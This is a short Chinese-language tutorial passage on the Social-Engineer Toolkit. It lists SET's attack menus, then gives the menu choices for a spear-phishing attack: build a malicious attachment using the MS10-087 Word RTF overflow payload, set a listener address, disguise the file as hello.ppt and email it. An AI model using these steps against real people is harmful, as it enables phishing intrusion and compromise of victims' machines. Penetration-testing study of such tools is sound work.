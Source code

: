  2) Penetration Testing (Fast-Track)

 3) Third Party Modules

 4) Update the Social-Engineer Toolkit

 5) Update SET configuration

 6) Help, Credits, and About

 99) Exit the Social-Engineer Toolkit

社会工程学攻击模块：

 **1) Spear-Phishing Attack Vectors（鱼叉式钓鱼攻击）**

 2) Website Attack Vectors（网站攻击）

 3) Infectious Media Generator（介质感染攻击）

 4) Create a Payload and Listener （创一个Payload和listener）

 5) Mass Mailer Attack (群发邮件攻击)

 6) Arduino-Based Attack Vector（基于arduino的攻击）

 7) Wireless Access Point Attack Vector（无线接入点的攻击）

 8) QRCode Generator Attack Vector（二维码攻击）

 9) Powershell Attack Vectors（powershell攻击）

 10) SMS Spoofing Attack Vector（短信欺骗攻击）

 11) Third Party Modules

 99) Return back to the main menu.

**钓鱼网站攻击步骤顺序**：1232

**鱼叉式钓鱼攻击步骤顺序**：

`set>1`选择 1，社会工程学攻击

`set>1`选择 1，鱼叉式钓鱼攻击

鱼叉式钓鱼攻击有 3 种：

1.  群发邮件；
2.  创建 1 个文件的附件；
3.  创建 1 个社会工程学模板。

`set:phishing>2`选择 2，即创建 1 个文件的附件

20 多种通过附件形式进行攻击的方式，利用操作系统和软件的漏洞进行攻击，也就是说在特定的版本或系统上才出现，因此要注意被测试的系统和软件版本。

`set:payload>6`选择 6， 6) Microsoft Word RTF pFragments Stack Buffer Overflow (MS10-087)。payload 选择为 MS10-087

`set:payload>4`选择 4，并输入本地监听地址 10.121.10.170

`set:phishing>2`选择 2，重命名文件为 hello.ppt

`set:phishing>1`选择 “1”，发送单份邮件  
